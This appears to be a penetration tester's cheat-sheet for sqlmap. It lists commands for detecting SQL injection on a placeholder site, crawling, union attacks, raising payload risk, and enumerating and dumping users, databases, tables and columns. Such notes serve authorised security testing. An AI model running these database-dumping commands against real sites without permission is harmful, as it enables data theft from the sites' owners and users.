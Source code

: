 ## Scope 
Automatic SQL injection and database takeover tool.

sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester, and a broad range of switches including database fingerprinting, over data fetching from the database, accessing the underlying file system, and executing commands on the operating system via out-of-band connections.

## Source
https://github.com/sqlmapproject/sqlmap
Environment:  Python

## Installation
*** Pre-installed in Kali Linux

```
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

# Example Usages

### To get a list of basic options and switches
```
python sqlmap.py -h
```

### To get a list of all options and switches
```
python sqlmap.py -hh
```

### Vulnerability Finding

### ALL IN ONE
```
sqlmap -u url.com --threads 5 --level 5 --risk 3 --v 1 --batch
```
 
### Auto Select default features
```
sqlmap -u url.com/news.php?id=1 --batch
```

### Crawling the URL 
```
sqlmap -u url.com --crawl depth --batch
```

### Union attack

```
sqlmap -u url.com --crawl 5 --technique="U" --batch
```

### Thread ---using multiple connection for faster result, default 1, [range= 1 to 10]
```
sqlmap -u url.com --crawl 5 --threads [1 to 10] --batch
```
 
### Risk -- harm level of payloads used, default 1, [range=1 to 3]

```
sqlmap -u url.com --crawl 5 --risk 3
```

### Level -- test in the cookies; default 1, [range=1 to 5]

```
sqlmap -u url.com --crawl 5 --level 5
```

### Verbosity , default 0,[range=0 to 6]
```
sqlmap -u url.com --crawl 5 --batch --v 6
```

## Post Exploitation

### User Enumeration; after finding a vulnerable parameter

```
sqlmap -u url.com/news.php?id=1 --current-user --batch
```

```
sqlmap -u url.com/news.php?id=1 --hostname --batch
```

### Getting the current database name
```
sqlmap -u url.com/news.php?id=1 --current-db --batch
```


### Getting tables in a database
```
sqlmap -u url.com/news.php?id=1 -D database_name --tables
```

### Getting All columns in a table
```
sqlmap -u url.com/news.php?id=1 -D database_name -T table_name --dump
```

### Getting a specific Column Type in a specific table
```
sqlmap -u url.com/news.php?id=1 -D database_name -T table_name --columns
```

### Getting all tables in a database
```
sqlmap -u url.com/news.php?id=1 -D database_name --dump-all
```

### Getting all database details
```
sqlmap -u url.com/news.php?id=1 --dbs
```

### <mark style="background: #D2B3FFA6;">Saving Output</mark>

```
sqlmap -u url.com --crawl 5 --output-dir="/location/to/save.txt"
```

